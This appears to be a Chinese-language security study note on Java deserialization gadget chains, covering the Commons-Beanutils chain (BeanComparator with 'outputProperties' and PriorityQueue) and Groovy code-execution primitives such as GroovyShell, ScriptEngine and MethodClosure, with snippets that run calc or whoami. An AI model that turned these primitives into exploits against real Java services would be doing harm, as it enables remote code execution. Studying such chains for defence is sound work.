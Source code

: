 

### CB链

sink：在这里会自动调用property的getter

![image-20220920113614584](image/image-20220920113614584.png)

property需要设置

```
BeanComparator beanComparator = new BeanComparator("outputProperties");
```

最后反序列化是PriorityQueue这个类

![image-20220920113745882](image/image-20220920113745882.png)

queue里面放调用数组

size也需要赋值，不让进不了判断



### Groovy

可以执行字符串

```java
GroovyShell groovyShell = new GroovyShell();
String cmd = "\"calc\".execute().text";
System.out.println(groovyShell.evaluate(cmd)); 
```

也可以执行.groovy脚本，也可以开启http的服务然后执行

```java
File file = new File("C:\\Users\\admin\\Desktop\\project\\cc\\src\\main\\java\\groovy\\script.groovy");
groovyShell.evaluate(file);
```

也可以进行类加载，然后反射调用实现GroovyClassLoader.parseClass(也可从文件中进行类加载)

![image-20220922134055024](image/image-20220922134055024.png)

javax.script.ScriptEngine 想必都熟悉，我们可以使用他来执行js脚本，当然也可以执行groovy 脚本。

```java
ScriptEngine scriptEngine = new ScriptEngineManager().getEngineByName("groovy/javascript");
System.out.println(scriptEngine.eval("\"whoami\".execute().text"));
```

一般这样写

```java
MethodClosure methodClosure = new MethodClosure("calc", "execute");
methodClosure.call();
```

